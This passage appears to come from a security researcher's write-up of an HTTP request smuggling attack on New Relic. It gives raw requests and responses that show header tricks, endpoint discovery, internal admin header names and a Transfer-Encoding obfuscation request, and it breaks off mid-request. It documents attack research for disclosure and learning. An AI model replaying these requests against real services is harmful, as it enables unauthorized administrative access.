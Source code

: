 ...
GET / HTTP/1.1
Host: staging-alerts.newrelic.com

HTTP/1.1 301 Moved Permanently
Location: https://staging-alerts.newrelic.com/
This was easily fixed using the X-Forwarded-Proto header observed earlier:

...
GET / HTTP/1.1
Host: staging-alerts.newrelic.com
X-Forwarded-Proto: https

HTTP/1.1 404 Not Found

Action Controller: Exception caught 
With a little content discovery I found a useful endpoint on the target:

...
GET /revision_check HTTP/1.1
Host: staging-alerts.newrelic.com
X-Forwarded-Proto: https

HTTP/1.1 200 OK

Not authorized with header:
The error message clearly told me I needed an authorization header of some sort, but teasingly failed to name it. I decided to try the 'X-nr-external-service' header seen earlier:

...
GET /revision_check HTTP/1.1
Host: staging-alerts.newrelic.com
X-Forwarded-Proto: https
X-nr-external-service: 1

HTTP/1.1 403 Forbidden

Forbidden
Unfortunately this didn't work - it caused the same Forbidden response that we'd already seen when trying access that URL directly. This suggested that the front-end was using the X-nr-external-service header to indicate that the request originated from the internet, and by smuggling and therefore losing the header, we'd accidentally tricked their system into thinking our request originated internally. This was very educational, but not directly useful - we still needed the name of the missing authorization header.

At this point I could have applied the processed-request-reflection technique to a range of endpoints until I found one that had the right request header. Instead, I decided to cheat and consult my notes from last time I compromised New Relic. This revealed two invaluable headers - Server-Gateway-Account-Id and Service-Gateway-Is-Newrelic-Admin. Using these, I was able to gain full admin-level access to their internal API:

POST /login HTTP/1.1
Host: login.newrelic.com
Content-Length: 564
Transfer-Encoding: chunked
Transfer-encoding: cow
